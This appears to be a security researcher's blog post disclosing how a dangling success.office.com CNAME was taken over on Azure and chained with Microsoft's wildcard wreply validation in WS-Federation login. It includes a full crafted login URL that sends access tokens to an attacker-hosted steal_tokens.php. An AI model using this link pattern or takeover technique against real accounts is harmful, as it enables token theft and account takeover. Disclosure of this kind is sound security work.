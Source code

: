 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read Nir Goldshlager's Facebook Oauth bug series, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use this domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who clicked on a crafted link with this changes, the tokens would get leaked and this token can be exchanged
for a session token and subsequently an account takeover would result.


<img src="http://139.59.39.57/images/outlook.jpg" />

PS : There are different news being spread out with different hypes which may not reflect pure technical terms or properly specify
the steps required to exploit this; those may not reflect my opinions.
